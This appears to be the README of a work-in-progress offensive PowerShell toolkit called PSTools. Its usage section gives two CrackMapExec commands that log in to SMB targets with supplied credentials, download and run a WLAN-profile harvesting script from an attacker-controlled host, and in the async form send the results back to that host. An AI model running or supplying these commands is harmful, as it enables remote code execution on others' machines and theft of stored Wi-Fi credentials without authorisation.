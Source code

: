 # PSTools (WIP)

## Usage

ASYNC EXEC:
```cme smb $TARGETS -u $USER$ -p $PASSWORD$ -X "IEX (new-object net.webclient).downloadstring('http://$IP:8000/Get-WLANProfile.ps1'); Get-WLANProfile -AsyncURI http://$IP:8000;" --no-output```

SYNC EXEC:
```cme smb $TARGETS -u $USER$ -p $PASSWORD$ -X "IEX (new-object net.webclient).downloadstring('http://$IP:8000/Get-WLANProfile.ps1'); Get-WLANProfile;"```

## Acknowledgments
* @neofito_deverdad for his guide and help
* I copied and modified some scripts from here: https://github.com/BornToBeRoot/PowerShell
